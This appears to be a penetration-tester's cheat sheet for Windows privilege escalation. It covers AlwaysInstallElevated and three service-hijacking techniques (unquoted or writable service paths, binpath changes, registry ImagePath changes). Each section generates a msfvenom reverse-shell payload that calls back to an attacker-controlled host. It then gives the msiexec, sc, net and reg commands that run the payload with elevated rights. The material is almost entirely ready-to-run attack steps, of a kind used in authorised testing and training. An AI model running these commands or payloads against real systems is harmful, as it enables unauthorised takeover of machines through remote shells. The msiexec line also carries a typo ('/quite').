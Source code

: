 ## Exploiting `AlwaysInstallElevated`
- Prepare the reverse shell:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f msi > shell.msi
```
- [Copy to the target](#copy-files-fromto-the-target)
- Run:
```cmd
msiexec /quite /qn /i shell.msi
```

## Unquoted service path or service executable modification
- Prepare the reverse shell:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f exe > shell.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Stop/Start service:
```cmd
sc stop <service_name>
sc start <service_name>

net stop <service_name>
net start <service_name> 
```

## Service binpath modification
- Prepare the reverse shell:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f exe > shell.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Modify service binpath:
```cmd
sc config <service_name> binpath= "\"C:\Users\<username>\AppData\Local\Temp\shell.exe\""
```
- Stop/Start service
```cmd
sc stop <service_name>
sc start <service_name>

net stop <service_name>
net start <service_name> 
```

## Service registry modification
- Prepare the reverse shell:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f exe > shell.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Modify the registry:
```cmd
reg add "<registry_path>" /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\<username>\AppData\Local\Temp\shell.exe" /f
```
- Stop/Start service
```cmd
sc stop <service_name>
sc start <service_name>

net stop <service_name>
net start <service_name> 
```
